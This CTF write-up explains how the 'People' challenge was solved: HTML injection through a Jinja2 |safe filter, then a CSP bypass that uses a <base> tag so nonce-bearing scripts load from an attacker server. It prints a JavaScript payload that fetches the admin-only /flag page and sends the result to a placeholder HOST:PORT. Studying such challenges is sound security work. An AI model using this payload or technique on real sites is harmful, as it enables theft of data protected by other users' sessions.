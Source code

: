 ```yaml
---
description: Base element CSP bypass
---
```


# People

## Description

> With the new People personal pages, all the members of the EPFL community can have their own page personalize it with Markdown and much more...

{% file src="../../.gitbook/assets/people.zip" %}

## Solution

This was a client-side web challenge where we had to cause an XSS in a user's profile to obtain the flag through the admin account.

```python
@main.route('/flag')
def flag():
    if request.cookies.get('admin_token') == admin_token:
        return os.getenv('FLAG') or 'flag{flag_not_set}'
    else:
        abort(403)

@main.route('/report/<user_id>', methods=['POST'])
@limiter.limit("2/2 minute")
def report(user_id):
    user = User.query.get(user_id)
    q.enqueue(visit, user.id, admin_token)
    flash("Thank you, an admin will review your report shortly.", "success")
    return redirect(url_for('main.profile', user_id=user_id))
```

Let's take a look at our potential injection points. One of the suspicious features of the profile page was that we were able to edit our bio in Markdown.

<figure><img src="../../.gitbook/assets/Screenshot 2022-09-26 at 9.02.39 PM.png" alt=""><figcaption></figcaption></figure>

This is then parsed using `marked` and `DOMPurify`.

```markup
<section>

      ...
        
        <div class="block about">
          <h3>About</h3>
          <div class="markdown">{{ user['bio'] }}</div>
        </div>
        
      ...
        
</section>

...

<script src="/static/js/marked.min.js" nonce="{{ csp_nonce() }}"></script>
<script src="/static/js/purify.min.js" nonce="{{ csp_nonce() }}"></script>
<script nonce="{{ csp_nonce() }}">
  var markdown = document.querySelectorAll(".markdown");
  for (var i = 0; i < markdown.length; i++) {
    var html = marked.parse(markdown[i].innerHTML, {
      breaks: true
    });
    html = DOMPurify.sanitize(html, { USE_PROFILES: { html: true } });
    markdown[i].innerHTML = html;
  }
</script>
```

We could find out the version numbers of these libraries through the `marked.min.js` and `purify.min.js` files. Doing a search on these versions yielded no security vulnerabilities.

While [mutation XSS](https://infosecwriteups.com/clique-writeup-%C3%A5ngstromctf-2022-e7ae871eaa0e) attacks might still be possible on these libraries, those attacks would likely only happen when `DOMPurify` is used _before_ `marked`, because `marked` deliberately [does not sanitize output HTML](https://marked.js.org/). It was also unlikely that this involved a zero-day in `DOMPurify`, so let's look around a little more.

In Jinja2, the `|safe` [filter](https://jinja.palletsprojects.com/en/3.1.x/templates/#filters) renders unescaped HTML. Doing a grep search for the `safe` filter finds this interesting part of the `profile.html` template.

```django
{% raw %}
{% set description = '%s at %s' % (user['title'], user['lab']) %}
{% block title %}{{user['fullname']}} | {{description|safe}}{% endblock %}
{% endraw %}
```

Nice, we have our HTML injection vector! Trying to insert a `<script>` payload wouldn't work though, since the Content Security Policy doesn't allow us to load arbitrary scripts without a randomly-generated`nonce`.

```python
csp = {
    'script-src': '',
    'object-src': "'none'",
    'style-src': "'self'",
    'default-src': ['*', 'data:']
}
Talisman(app,
    force_https=False,
    strict_transport_security=False,
    session_cookie_secure=False,
    content_security_policy=csp,
    content_security_policy_nonce_in=['script-src'])
```

When this happens, we can rely on the [`<base>` HTML tag](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/base) to set the base URL to use for all relative URLs in a document.

This means that we could load the `/static/js/marked.min.js` files from a completely different URL that we control. Since these script tags are part of the original template and the `nonce` is always appropriately set, the browser would have no issues executing the script from our URL.

```markup
<script src="/static/js/marked.min.js" nonce="{{ csp_nonce() }}"></script>
```

We start a HTTP server and create the `/static/js` directory structure, and place our XSS payload in `marked.min.js`.

```javascript
fetch(`http://${window.location.host}/flag`).then(res => res.text()).then(data => {
    fetch("http://HOST:PORT?flag=" + btoa(data));
})
```

Then we could inject `<base href="http://HOST:PORT">` into our profile through `user['title']` or `user['lab']`.
